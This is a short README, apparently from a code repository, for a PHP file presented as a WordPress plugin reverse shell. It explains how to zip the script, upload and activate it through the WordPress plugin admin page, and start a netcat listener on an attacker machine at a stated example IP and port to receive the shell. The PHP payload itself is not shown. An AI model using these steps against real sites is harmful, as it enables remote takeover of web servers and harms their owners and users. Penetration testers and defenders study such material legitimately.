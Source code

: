 # wordpress_plugin_reverse_shell.php
1.) Zip up php file. NOTE: PHP script uses example attacker machine IP:PORT - 192.168.0.1:8080
2.) Navigate WP UI -> Plugins -> Add New -> Upload Plugin 
   -> Browse -> Install Now -> Activate Plugin.
3.) Setup listening port with netcat from attacker machine: netcat -lvp 8080
